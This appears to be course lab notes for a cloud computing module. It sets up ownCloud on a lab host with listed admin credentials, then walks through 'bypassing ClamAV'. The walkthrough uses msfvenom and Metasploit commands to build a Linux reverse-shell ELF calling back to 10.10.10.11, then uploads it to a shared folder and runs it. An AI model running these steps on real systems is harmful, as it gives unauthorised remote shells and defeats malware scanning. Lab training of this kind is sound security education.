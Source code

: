 # 19 - Cloud Computing

## **Module 19 - Cloud Computing**

<details>

<summary>EMPTY</summary>



</details>



### Using Owncloud&#x20;

* Hosted at ubuntu machine http://10.10.10.9/owncloud. admin:qwerty@123
* Create users and share files to users.
* Install Desktop client and share and view files

Bypassing ClamAV

Cloud is currently protected by ClamAV so no malicious file is uploaded.

* `msfvenom -p linux/x86/shell/reverse_tcp LHOST=10.10.10.11 LPORT=4444 --platform linux -f elf > /root/Desktop/exploit.elf` generate a linux based executable&#x20;
* Type `use multi/handler`
* Type `set payload linux/x86/shell/reverse_tcp`
* Type `set LHOST 10.10.10.11`
* Type `set LPORT 4444`
* Type `run`
* Upload payload in shared folder.
* Download using admin, Set permission to `chmod -R 755 exploit.elf`
* Execute exploit `./exploit.elf`

